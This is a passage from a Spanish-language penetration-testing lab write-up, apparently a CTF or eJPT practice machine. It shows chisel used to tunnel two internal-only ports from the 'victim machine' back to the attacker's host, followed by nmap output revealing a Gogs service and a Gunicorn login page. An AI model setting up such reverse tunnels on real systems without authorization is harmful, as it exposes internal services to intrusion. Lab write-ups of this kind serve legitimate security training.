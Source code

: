Vemos dos puertos abiertos que solo son accesibles desde la propia máquina, así que aplicamos [[eJPT-Glossary/port forwarding]]. Para ello utilizaremos [[chisel 1]]:

```bash
./chisel server -p 8000 --reverse
```
> En nuestra máquina.

```bash
./chisel client 10.10.14.54:8000 R:3000:127.0.0.1:3000 R:8001:127.0.0.1:8001 &
```
> En la máquina víctima.

Podemos volver a lanzar [[nmap]] para escanear los puertos:

```bash
nmap -sCV -p8001,3000 localhost
```
```nmap
PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=6c6713318c67582e; Path=/; HttpOnly
|     Set-Cookie: _csrf=KsvaG2IXLLiKd-Qx3L0sOsSvwT86MTY4OTQ0MzUwMDI2OTMwODIwNA; Path=/; Domain=127.0.0.1; Expires=Sun, 16 Jul 2023 17:51:40 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: DENY
|     Date: Sat, 15 Jul 2023 17:51:40 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="KsvaG2IXLLiKd-Qx3L0sOsSvwT86MTY4OTQ0MzUwMDI2OTMwO
|   HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     X-Content-Type-Options: nosniff
|     Date: Sat, 15 Jul 2023 17:51:45 GMT
|     Content-Length: 108
|_    template: base/footer:15:47: executing "base/footer" at <.PageStartTime>: invalid value; expected time.Time
8001/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
| http-title: Login
|_Requested resource was /login
```
